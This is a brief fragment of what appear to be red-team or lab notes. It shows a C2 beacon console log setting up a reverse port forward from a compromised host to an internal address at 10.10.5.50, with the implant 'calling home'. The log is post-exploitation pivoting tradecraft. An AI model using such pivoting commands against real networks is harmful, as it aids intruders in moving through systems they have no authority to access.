 reverse portfwd setup
```powershell
[02/18 00:41:51] beacon> rportfwd 8888 10.10.5.50 8888
[02/18 00:41:51] [+] started reverse port forward on 8888 to 10.10.5.50:8888
[02/18 00:41:51] [*] Tasked beacon to forward port 8888 to 10.10.5.50:8888
[02/18 00:41:51] [+] host called home, sent: 22 bytes
```
![[Pasted image 20240217194224.png]]

